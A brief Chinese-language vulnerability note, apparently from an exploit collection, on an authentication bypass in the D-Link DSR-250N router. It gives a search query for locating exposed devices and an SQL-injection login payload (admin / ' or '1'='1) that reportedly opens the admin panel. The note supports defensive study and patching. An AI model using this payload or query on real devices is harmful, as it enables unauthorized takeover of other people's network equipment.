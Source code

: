 # D-Link DSR-250N 万能密码漏洞

## 漏洞描述

D-Link DSR-250N 存在万能密码漏洞，攻击者通过漏洞可以获取后台权限

## 漏洞影响

```
D-Link DSR-250N
```

## 网络测绘

```
app="D_Link-DSR-250N"
```

## 漏洞复现

登录页面如下

![](./images/202202162222919.png)

```plain
user: admin
pass: ' or '1'='1
```

成功登录后台

![](./images/202202162223338.png)